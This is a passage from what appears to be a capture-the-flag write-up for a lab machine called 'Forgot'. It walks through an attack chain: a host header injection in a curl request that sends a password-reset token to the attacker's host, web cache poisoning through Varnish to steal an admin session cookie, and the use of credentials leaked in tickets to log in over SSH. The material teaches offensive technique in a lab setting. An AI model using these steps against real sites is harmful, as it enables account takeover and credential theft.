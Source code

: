 ```shell
curl 'http://10.10.11.188/forgot?username=robert-dev-87120' -H 'Host: 10.10.14.87:8001'
```
![Host Header Injection](/images/forgot/forgot03.png "Host Header Injection")

Now use this token and reset the password from the browser to a new password: `P@sSw0r)`
![Reset User Password](/images/forgot/forgot04.png "Reset User Password")

Investigated all the tabs on the logged-in page. On the Tickets tab noticed a ticket 'SSH Credentials are not working for Jenkins Slave machine' reported by 'Diego (Devops Lead)' in 'Escalated' status. On the Escalate tab we see the form for submitting tickets. The Tickets(escalated) tab is disabled which on inspection shows it maps to `/admin_tickets` with an anchor tag `class="disabled"`. Intercepted the `/escalation` page and investigated it. From existing knowledge Host header attack works on some vulnerability type of which [web cache poisoning](https://www.invicti.com/learn/web-cache-poisoning/) is one and the application uses varnish cache.

![Forgot Ticket and Escalate Tabs](/images/forgot/forgot05.png "Forgot Ticket and Escalate Tabs")

![Intercept Escalate URL](/images/forgot/forgot06.png "Intercept Escalate URL")

Our enumeration revealed the application is using a [varnish cache](https://varnish-cache.org/intro/index.html#the-basics). Searched for varnish cache exploits and found [exploiting cache design flaw](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws), and [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning). Burp suite showed us a `/static` endpoint and cache are focused on storing static pages. Noticed that the application caches a non-existent page. We will craft a non-existent URL say `/static/error.png` or `/static/admin.css` and raise a ticket using the URL as the value for the Link box. Hopefully, the admin will click the link to understand our issue which inadvertently caches it such that when we visit the same link the returned content will contain the cookie of the admin since the application is serving us the cached content of the user that first visited the site.
```bash
# after the admin must have clicked the link, request the URL again and get the admin cookie
curl -s -I http://10.10.11.188/static/payload.css
#--snip--#
HTTP/1.1 404 NOT FOUND
Server: Werkzeug/2.1.2 Python/3.8.10
Date: Sat, 18 Mar 2023 10:08:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 207
Set-Cookie: session=0bcdf31d-00fe-44c9-acb6-e074d478cec7; HttpOnly; Path=/
cache-control: public, max-age=240
X-Varnish: 327750 163926
Age: 1193
Via: 1.1 varnish (Varnish/6.2)
Connection: keep-alive

# request the disabled /admin_tickets with above cookie. you can also use the browser. see forgot09
curl http://10.10.11.188/admin_tickets -H 'Cookie: session=0bcdf31d-00fe-44c9-acb6-e074d478cec7' | html2text      # see forgot08
<<SNIP
****** Admin Tickets ******
Issue               Reported By         Link               Reason
                                                           I've tried with
SSH Credentials are                                        diego:dCb#1!x0%gjq.
not working for                         http://forgot.htb/ The automation tasks
Jenkins Slave       Diego (Devops Lead) tickets/102        has been blocked due
machine                                                    to this issue.
                                                           Please resolve this
                                                           at the earliest
SNIP

# log in via ssh
ssh diego@10.10.11.188      # on prompt submit: dCb#1!x0%gjq
ls -l
```